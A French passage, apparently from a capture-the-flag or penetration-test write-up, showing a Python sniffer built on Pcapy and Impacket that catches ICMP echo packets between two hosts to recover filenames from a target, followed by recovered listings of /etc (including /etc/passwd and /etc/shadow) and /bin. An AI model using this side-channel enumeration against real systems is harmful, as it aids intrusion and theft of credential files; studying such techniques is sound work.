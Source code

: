 Le second script est un sniffer en Python qui utilise la librairie *Pcapy* pour sniffer et *Impacket* pour décoder les trames réseau :  

```python
import pcapy
from impacket import ImpactDecoder, ImpactPacket
import fcntl

sniff = pcapy.open_live("eth0", 65536, 1, 0)
decoder = ImpactDecoder.EthDecoder()

while True:
    (header, packet) = sniff.next()
    ethernet = decoder.decode(packet)

    if ethernet.get_ether_type() == ImpactPacket.ARP.ethertype: # ARP
        continue
    elif ethernet.get_ether_type() == ImpactPacket.IP.ethertype: # ARP
        ip = ethernet.child()
        if ip.get_ip_p() == ImpactPacket.UDP.protocol:
            continue
        if ip.get_ip_p() == ImpactPacket.TCP.protocol:
            continue
        if ip.get_ip_p() == ImpactPacket.ICMP.protocol:
            icmp = ip.child()
            if icmp.get_icmp_type() == ImpactPacket.ICMP.ICMP_ECHO:
                if ip.get_ip_src() == "192.168.1.21" and ip.get_ip_dst() == "192.168.1.3":
                    fd = open("/tmp/current_path", "r")
                    fcntl.flock(fd.fileno(), fcntl.LOCK_EX)
                    buff = fd.read(1024)
                    fcntl.flock(fd.fileno(), fcntl.LOCK_UN)
                    fd.close()
                    print buff
```

J'ai ainsi récupérer la liste de fichiers suivants pour /etc :  

```plain
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/nginx/nginx.conf
/etc/php.ini
```

Pour /bin :  

```plain
/bin/ls
/bin/touch
/bin/uname
/bin/ping
/bin/bash
/bin/mkdir
/bin/su
/bin/echo
/bin/sh
```
